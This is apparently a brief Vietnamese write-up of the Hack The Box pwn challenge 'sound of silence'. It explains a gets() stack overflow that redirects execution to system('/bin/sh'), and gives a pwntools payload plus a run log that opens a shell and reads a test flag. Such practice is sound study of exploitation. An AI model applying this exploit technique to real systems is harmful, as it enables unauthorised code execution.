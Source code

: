 # write up sound of silence 
- với bài này em thấy rằng trong chương trình có đoạn code này

```assembly
  0x0000000000401169 <+19>:	mov    rdi,rax
   0x000000000040116c <+22>:	call   0x401050 <system@plt>
   0x0000000000401171 <+27>:	lea    rax,[rbp-0x20]
   0x0000000000401175 <+31>:	mov    rdi,rax
   0x0000000000401178 <+34>:	mov    eax,0x0
   0x000000000040117d <+39>:	call   0x401060 <gets@plt>
   0x0000000000401182 <+44>:	nop
   0x0000000000401183 <+45>:	leave
   0x0000000000401184 <+46>:	ret
```
- cộng với việc sau khi rời khỏi gets bị buffer overflow trong chương trình và đến return thì kết quả nhập vào được lưu trong 1 chiếc địa chỉ của stack và đẩy lên rax thì em có thể bỏ đoạn code này ở saved rip để sau khi nó return thì nó chạy đoạn code này với tham số truyền vào cho hàm system là rdi là chuỗi "/bin/sh\0"
```python
    payload = b'a'*8
    payload += b'a'*8
    payload += b'a'*8
    payload += b'a'*8
    payload += b'/bin/sh\0'
payload += p64(go_system)
p.sendlineafter(b'>>',payload)
```
- đáng nhẽ ra rax sẽ chứa chuỗi đầu em nhập vào nhưng mà em nhận ra hành vi kì lạ của chương trình nên em sẽ để chuỗi /bin/sh\0 ở 1 chỗ khác mà nó chạy được

```bash

[*] '/home/as/pwnable/report/hacktheboxx/pwn_sound_of_silence/challenge/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/as/pwnable/report/hacktheboxx/pwn_sound_of_silence/challenge/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/as/pwnable/report/hacktheboxx/pwn_sound_of_silence/challenge/sound_of_silence_patched': pid 135511
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/as/pwnable/report/hacktheboxx/pwn_sound_of_silence/challenge/sound_of_silence_patched', '135511', '-x', '/tmp/pwnkeobju9j.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
 $ ls
flag.txt  ld-linux-x86-64.so.2    sound_of_silence      sound_of_silence.py
glibc      libc.so.6        sound_of_silence.i64  sound_of_silence_patched
$ cat flag
cat: flag: No such file or directory
$ cat flag.txt
HTB{f4k3_fl4g_4_t35t1ng}
$
```

